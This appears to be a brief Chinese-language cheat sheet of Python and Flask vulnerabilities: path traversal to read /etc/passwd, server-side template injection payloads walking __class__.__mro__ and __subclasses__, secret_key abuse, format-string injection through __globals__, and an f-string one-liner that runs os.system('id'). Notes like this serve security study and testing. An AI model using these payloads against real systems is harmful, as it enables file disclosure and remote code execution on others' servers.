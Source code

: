 Python漏洞
================================

flask
--------------------------------

- 自己解析静态文件=>任意文件读取 ../ * n + /etc/passwd
- 模版注入rce
::
    
    PoC: {{ 7*7 }}
    Exp: {{''.__class__.__mro__[2].__subclasses__()}}

- 获取app.secret_key
    - 可以RCE
- 格式化字符串
::

    "welcome {user}".format(user=user)
    user = {0.__class__.__init__.__globals__}

    python3.6
    python3 -c "f'''{__import__('os').system('id')}'''"